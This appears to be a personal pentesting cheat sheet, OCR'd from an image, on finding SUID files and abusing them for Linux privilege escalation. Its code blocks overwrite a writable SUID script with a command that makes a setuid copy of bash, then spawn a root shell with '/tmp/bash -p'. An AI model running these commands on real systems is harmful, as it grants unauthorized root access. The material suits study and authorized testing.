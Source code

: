 #### Steps to Identify and Exploit SUID Files 
##### 1. Find SUID Files :
```bash 
find / -type f -perm -u=s 2>dev/null
```

##### 2. Anylyze SUID Files :
- Check the purpose of the SUID file.
	- ```find / -type f -perm -u=rws 2>/dev/null
- Determine if the file is writable or vulnerable.
##### 3. Exploitation Scenarios :
###### 3.1 Misconfigured SUID Binaries : if a binary is writable, it can be replaced with a malicious script or binary.
```bash
find / -type f -perm -u=rws,o=rw 2>/dev/null 
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /path/to/suid-binary   # if suid has writable permission
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/NX/scripts/restricted/nxlicense.sh
cat /usr/NX/scripts/restricted/nxlicense.sh    # verifying contain is write or not
./usr/NX/scripts/restricted/nxlicense.sh   # run the binary
#After execution , run /tmp/bash -p to get a root shell.
/tmp/bash -p 
```


##### 4 exploitation of  suid binaries 
###### 4.1 privilege escalation via find suid binary
check suid permissions
```bash
which find
ls -lha /usr/bin/find
```

![](Attachments/Pasted%20image%2020250222092813.png)

check user id 
```bash
id
```

![](Attachments/Pasted%20image%2020250222092933.png)

exploit binary

![](Attachments/Pasted%20image%2020250222093108.png)
